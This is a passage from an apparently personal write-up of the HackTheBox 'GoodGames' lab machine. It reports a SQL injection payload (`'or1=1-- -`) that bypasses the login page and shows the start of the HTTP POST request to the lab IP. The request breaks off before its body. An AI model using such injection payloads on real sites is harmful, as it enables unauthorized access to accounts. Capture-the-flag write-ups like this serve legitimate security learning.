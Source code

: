 Any attempts to edit the profile details results in `500 INTERNAL SERVER ERROR`.

![error](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/GoodGames/error.png?raw=true)

It seems that we might be on the wrong path. At this point, we might as well try some low hanging fruit such as SQL injection on the login page.

Trying `’or1=1--` failed but `’or1=1-- -` succeeded!

 ```http
 POST /login HTTP/1.1
 Host: 10.10.11.130
 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 32
 Origin: http://10.10.11.130
 Connection: close
 Referer: http://10.10.11.130/login
 Upgrade-Insecure-Requests: 1
 
 ```